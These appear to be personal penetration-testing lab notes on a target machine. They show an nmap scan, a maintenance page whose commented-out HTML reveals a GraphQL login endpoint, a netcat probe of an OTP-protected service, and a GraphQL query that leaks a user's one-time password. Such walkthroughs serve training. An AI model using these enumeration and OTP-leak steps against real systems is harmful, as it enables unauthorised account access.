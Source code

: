 ```yaml
---
tags:
  - windows
---
```

Target 192.168.213.170

nmap 192.168.213.170 -p 22,80,5132,8433 -sV -vvv -T4 --open -Pn


New option --open = only shows open ports

  

Also tip for -Pn is if I know a port is open but being blocked by a firewall or a proxy etc, I can force normal scanning since nmap will typically scan if it sees the host is up.

  

22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

80/tcp   open  http    syn-ack nginx 1.18.0 (Ubuntu)

5132/tcp open  unknown syn-ack

8433/tcp open  http    syn-ack Werkzeug httpd 2.0.2 (Python 3.8.10)

  

Check the website on 80

  

<!DOCTYPE html>

<html lang="en">

<head>

<meta charset="UTF-8">

<title>Under Maintainence</title>

<link href="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css" rel="stylesheet" id="bootstrap-css">

<script src="//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js"></script>

<script src="//cdnjs.cloudflare.com/ajax/libs/jquery/3.2.1/jquery.min.js"></script>

  

<style>

body {

    background: #dedede;

}

.page-wrap {

    min-height: 100vh;

}

</style>

</head>

<body>

  

<div class="page-wrap d-flex flex-row align-items-center">

<div class="container">

    <div class="row justify-content-center">

<div class="col-md-12 text-center">

<span class="display-1 d-block">Under Maintainence</span>

    <div class="mb-4 lead">For sometime web UI will stay down, please use the CLI application on port 5132</div>

</div>

    </div>

</div>

</div>

  

<!--commenting the code until we fix the whole application-->

   <!--<div class="row">-->

      <!--<div class="col-lg-4 col-sm-offset-2">-->

         <!--<div class="panel panel-primary">-->

            <!--<div class="panel-heading">Login</div>-->

            <!--<div class="panel-body">-->

               <!--<div class="col-md-6">-->

       <!--<form method="post" action="http://127.0.0.1:8433/graphql?query={login(username:$uname, password:$pswd)}" enctype="multipart/form-data">-->

                     <!--<div class="form-group">-->

                        <!--<label for="uname">Username</label>-->

                        <!--<input type="text" placeholder="username" name="uname" class="form-control"><br>-->

                        <!--<label for="pswd">Password</label>-->

                        <!--<input type="text" placeholder="password" name="pswd" class="form-control"><br>-->

                        <!--<button class="btn btn-primary" type="submit">Submit</button>-->

                     <!--</div>-->

                  <!--</form>-->

               <!--</div>-->

            <!--</div>-->

            <!--<div class="panel-footer">-->

               <!--<center>-->

                  <!--<p style="font-size:2em;color: black">    </p>-->

               <!--</center>-->

            <!--</div>-->

         <!--</div>-->

      <!--</div>-->

   <!--</div>-->

</body>

</body>

</html>

![](https://lh6.googleusercontent.com/F2-ShJpd9YV3x3vSifk-nkfA2ZQIfGswxxgN_40OywQYzLdM9w2RY4F7tpocoKcC_vRsSfckHsbydK6yStuYXVKN5Lqw2pixoixRQhJrHGq0O24kTmBKoxFmJMxzn5OiGA=w1280)

Now to check port 5132

Run nc to check

nc -v 192.168.213.170 5132

  

nc -v 192.168.213.170 5132

192.168.213.170: inverse host lookup failed: Unknown host

(UNKNOWN) [192.168.213.170] 5132 (?) open

Enter Username: admin One Shot

Enter OTP: 3425752 Random

Incorrect username or password

Service asks for an OTP

  

8433 runs GraphQL with the login format as seen in the code comments

  

 Use graphQL to pull data from the app

![](https://lh3.googleusercontent.com/ZtbXKs5z8OvbTiQcg5JqfRuD2HVgbEFMRG56zC4v207ju5FkspCfSwmZt3JMekLSBwtCSqV2LbwmdfEYRD5TaMPJeG3AGky5s-F8p710Zvsh2nKt9aS-quywgc6gYcostQ=w1280)

{

  getOTP(username:"peter")

}

  

{

  "data": {

    "getOTP": "Your One Time Password is: nuWWLk8Ub05tP6zJ"

  }

}